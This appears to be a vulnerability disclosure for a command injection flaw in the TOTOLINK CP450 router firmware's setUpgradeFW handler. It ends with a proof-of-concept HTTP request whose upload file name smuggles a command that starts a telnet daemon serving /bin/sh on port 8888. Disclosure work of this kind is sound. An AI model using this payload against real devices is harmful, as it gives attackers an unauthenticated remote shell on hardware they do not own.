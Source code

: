 ## CP450 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

Totolink outdoor CPE CP450 V4.1.0cu.747_B20191224 were discovered to contain a command injection vulnerability in the `setUpgradeFW` function via the **FileName** parameter. Attacker can control `v8` by setting the parameter `FileName`.

![image-20240421163827190](./img/1.png)

Without any checking, `v8` will be passed to system function in line 145.

![image-20240421163827190](./img/2.png)

This vulnerability allows attackers to execute arbitrary commands via a crafted request.

#### PoC

```
POST /cgi-bin/cstecgi.cgi?action=upload&setting/setUpgradeFW HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data
Content-Length: 11321126
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/upload_firmware.asp
Cookie: SESSION_ID=2:1801026000:2
Upgrade-Insecure-Requests: 1

Content-Disposition: form-data; name="filename"; filename="1;telnetd -l /bin/sh -p 8888;ls"
Content-Type: application/octet-stream
```

